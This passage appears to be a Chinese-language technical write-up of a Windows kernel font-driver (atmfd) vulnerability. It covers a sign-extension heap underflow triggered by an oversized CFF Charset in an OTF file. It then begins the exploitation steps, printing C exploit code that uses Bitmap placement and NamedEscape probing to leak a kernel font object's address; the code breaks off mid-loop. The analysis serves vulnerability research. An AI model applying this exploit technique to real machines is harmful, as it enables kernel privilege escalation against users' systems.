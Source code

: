 我们可以看到，这里参数a3是一个有符号的16位数，当a3>0x8000的时候，movsx会将其扩展成0xffff8xxx，因此下面的写操作就变成了堆上溢，会往给出的缓存地址的前面写入。这是一个典型的由于符号溢出引发的堆上溢漏洞。

了解了漏洞的原理后，我们来继续分析OTF文件是如何触发该问题的，通过调试结合Adobe的文档我们可以知道，是在处理OTF文件中CFF表的Charset过程引发的问题。

我们可以通过T2F Analyzer来观察这个被加载的OTF字体文件的格式。见下图：

![enter image description here](http://drops.javaweb.org/uploads/images/815b33959237197e2ff8757637e4aeedf48e71d6.jpg)

显而易见，样本OTF文件中构造了超长的Charset，然后通过NamedEscape函数的0x2514命令来获取Charset的时候，就会触发到上面描述的触发点，引发符号溢出。

0x02 漏洞利用
=====

我们从头再看一下漏洞利用的流程，整个流程主要分这么几个部分：

1 找到内核字体对象的地址

由于内核字体内存的布局无法直接被Ring3代码探知，利用代码中使用了一个特殊的技巧来实现获得内核字体对象的地址，在利用代码中，先加载字体，然后立刻创建一个Bitmap对象，再连续多次加载这个字体，由于win32k和atmfd中共用了内存堆处理函数，因此会导致Bitmap对象和字体对象是正好相邻的。 由于Bitmap这类user/gdi对象的实际内核地址可以通过映射到Ring3的GdiSharedHandleTable获得，因此这样也就可以间接获得攻击代码加载到内核的字体对象的范围。 最后，由于NamedEscape函数调用atmfd设备的0x250A号命令可以指定对象的地址，并校验字体对象的有效性同时将字体对象读出来，因此攻击代码结合Bitmap定位和NamedEscape的0x250a指令，就可以准确获取字体对象的地址，相关的代码如下：

```
01  while (found == 0) {
02  unsigned char fontloaded = 0;
03  for (j = 0; j < 15; j++) {
04  tmp[0] = 0;
05  fhandle = lpTable->fpAddFontMemResourceEx(lpTable->lpLoaderConfig->foofont, sizeof(lpTable->lpLoaderConfig->foofont), 0, &tmp[0]);
06  if (fhandle){
07  fontloaded = 1;
08  }
09  }
10  if (fontloaded == 0) {
11  return -1;
12  }
13   
14  if (lpTable->locals->is64)
15  j = (unsigned int)lpTable->fpCreateBitmap(smallbitmapw64, smallbitmaph64, 1, 32, buf64);
16  else
17  j = (unsigned int)lpTable->fpCreateBitmap(smallbitmapw32, smallbitmaph32, 1, 32, buf32);
18   
19  if (lpTable->locals->is64) {
20  tmp[0] = handleaddr64low(j);
21  tmp[1] = handleaddr64high(j);
22  }
23  else
24  tmp[0] = handleaddr(j);
25   
26  min = tmp[0] - 0x4000;
27  max = tmp[0] + 0x4000;
28   
29  for (j = 0; j < 15; j++) {
30  tmp[0] = 0;
31  lpTable->fpAddFontMemResourceEx(lpTable->lpLoaderConfig->foofont, sizeof(lpTable->lpLoaderConfig->foofont), 0, &tmp[0]);
32  }
33   
34  for (i = min; i < max; i += 8) {
35  int ret;
36   
37  *(unsigned int*)inbuf = i;
38   
39  if (lpTable->locals->is64)
40  *(unsigned int*)(inbuf + 4) = tmp[1];
41   
```